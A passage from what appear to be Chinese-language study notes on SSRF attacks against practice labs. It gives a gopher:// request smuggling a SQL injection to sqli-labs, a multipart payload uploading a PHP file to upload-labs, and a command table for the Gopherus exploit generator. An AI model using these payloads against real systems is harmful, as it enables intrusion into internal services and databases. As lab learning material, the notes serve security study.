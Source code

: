 ### gopher提交

```xml
gopher://172.250.250.11:80/_POST /Less-11/index.php HTTP/1.1
HOST:172.250.250.11
Content-Type:application/x-www-form-urlencoded
Content_Length: 53
Uname=-1' union select 1,2 #&passwd=123&submit=Submit
```

# 10.SSRF进行文件上传漏洞

multipart/from-data 作为分割符分开POST提交

完整payload

```
POST /Pass-01/index.php HTTP/1.1
HOST:172.250.205.14
Content-Type:multipart/form-data;boundary=----xxxxxxxxxxxxx

------xxxxxxxxxxxxx
Content-Disposition: form-data;name="upload_file";filename="phpinfo.php //根据源代码自定义
Content-Type: image/jpeg"

<?php phpinfo()?>
------xxxxxxxxxxxxx
Content-Disposition: form-data; name="submit" //源代码中的name

上传  //源代码中的value
------xxxxxxxxxxxxx--
```

# 11.SSRF进行mysql未授权漏洞

## 1.工具Gopherus  

工具目录：kali /SSRF/Gopherus

| Command            | Description           |
| ------------------ | --------------------- |
| gopherus --help    | Help                  |
| gopherus --exploit | Arguments can be :    |
|                    | --exploit mysql       |
|                    | --exploit postgresql  |
|                    | --exploit fastcgi     |
|                    | --exploit redis       |
|                    | --exploit zabbix      |
|                    | --exploit pymemcache  |
|                    | --exploit rbmemcache  |
|                    | --exploit phpmemcache |
|                    | --exploit dmpmemcache |
|                    | --exploit smtp        |
